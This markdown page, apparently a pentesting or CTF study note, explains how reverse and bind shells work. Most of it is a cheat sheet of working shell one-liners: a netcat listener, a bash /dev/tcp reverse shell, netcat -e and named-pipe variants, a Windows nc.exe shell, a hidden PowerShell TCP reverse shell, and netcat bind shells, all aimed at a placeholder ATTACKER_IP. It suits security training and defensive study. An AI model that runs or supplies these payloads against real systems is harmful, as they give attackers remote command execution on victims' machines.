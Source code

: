 ```yaml
---
title: ReverseShell
slug: 3fe3fedb5a7b4b17a115606c40903f78
tags: []
date: 2024-09-01T18:05:00.000Z
---
```


# Reverse Shell

## Description

A reverse shell is a type of shell where the target machine initiates a connection to the attacker's machine. This technique is commonly used in penetration testing and CTF challenges to gain remote access to a system.

# 🎯 Visualizing the Reverse Shell

🔹 Victim Machine (Target)
📌 What happens?

Executes a malicious command (e.g., Bash, Python, Netcat).
Connects to ATTACKER\_IP on ATTACKER\_PORT.
Opens a shell session and sends input/output to the attacker's machine.
🔹 Attacker Machine
📌 What happens?

Runs a Netcat listener or Metasploit handler.
Waits for a connection from the victim.
Once connected, the attacker can execute remote commands.

# How is This Different from a Bind Shell?

🔥 Reverse Shell ✅ Victim initiates connection to attacker.
✅ Useful when a firewall blocks incoming connections.

🔥 Bind Shell ✅ Victim opens a port, and the attacker connects to it.
❌ Blocked by firewalls if inbound connections aren’t allowed.

# 🎯 Attacker IP (Hacker's Machine)

What the Attacker Does
Listens for the Connection – The attacker starts a listener to wait for an incoming connection.
Receives the Shell – When the victim connects back, the attacker gains control of the shell.
Executes Commands Remotely – The attacker can now run commands on the victim's machine.
Attacker's Action in a Reverse Shell
Example (Attacker Runs This First):

```sh
nc -lvnp 4444
```

📌 What happens?

nc (Netcat) – A tool to create network connections.
-l – Listens for incoming connections.
-v – Verbose mode (shows connection details).
-n – Prevents DNS lookup (faster response).
-p 4444 – Listens on port 4444 for the victim to connect.

# 🎯 Victim IP (Target Machine)

What the Victim Does
Initiates the Connection – The victim sends an outbound request to the attacker's IP.
Creates a TCP Connection – The victim’s machine connects to the attacker's listening port.
Redirects Input/Output – The victim binds the shell (e.g., /bin/sh or cmd.exe) to the connection, allowing the attacker to send commands.
Victim's Action in a Reverse Shell
Example (Victim Runs This):

```sh
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

📌 What happens?

`/dev/tcp/ATTACKER_IP/ATTACKER_PORT` – Creates a TCP connection to the attacker.
`bash -i` – Opens an interactive shell.
`>&` – Redirects standard input/output/error to the attacker's machine.

# Step-by-Step Reverse Shell Execution

1️⃣ Attacker Prepares a Listener
(Runs on the Attacker's Machine)

```sh
nc -lvnp 4444
```

✅ Waiting for a connection...

2️⃣ Victim Executes the Reverse Shell
(Runs on the Victim's Machine)

```sh
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

✅ Victim connects back to the attacker.

3️⃣ Attacker Gets a Shell
✅ Connection established! Now the attacker can run commands on the victim's machine.

```sh
whoami
ls -la
uname -a
```

## Common Reverse Shells

# 🦾 Netcat (nc) Reverse Shell

```sh
nc -e /bin/sh ATTACKER_IP ATTACKER_PORT
```

📌 How it works:

Uses Netcat to send /bin/sh shell over a TCP connection to the attacker.
The -e flag executes a shell when a connection is received.
🔥 Alternative (if -e is disabled)

```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT > /tmp/f
```

Creates a named pipe (mkfifo), allowing a shell session to be redirected.

# 🦀 Bash Reverse Shell

```sh
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

📌 How it works:

Uses /dev/tcp/ to create a network socket.
Redirects input/output to the attacker's machine.

# 🎯 Windows Reverse Shells

⚡ Windows Netcat (nc) Reverse Shell

```sh
nc.exe -e cmd.exe ATTACKER_IP ATTACKER_PORT
```

📌 How it works:

Uses Netcat (nc.exe) on Windows to connect back to the attacker's machine and execute cmd.exe.

# 🏹 PowerShell Reverse Shell

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$client = New-Object
System.Net.Sockets.TCPClient('ATTACKER_IP', ATTACKER_PORT);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data =
(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data
2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

📌 How it works:

Uses PowerShell to create a TCP connection.
Reads data from the attacker and executes it like a remote shell

# 🎯 Bind Shells (Attacker Connects to Victim)

💀 Unlike a reverse shell, a bind shell opens a listener on the victim machine. The attacker connects to it.

🔥 Netcat Bind Shell (Linux)

```sh
nc -lvnp ATTACKER_PORT -e /bin/sh
```

🔥 Windows Bind Shell (Netcat)

```sh
nc.exe -lvnp ATTACKER_PORT -e cmd.exe
```

📌 How it works:

The victim starts a Netcat listener (-lvp).
The attacker connects to it.
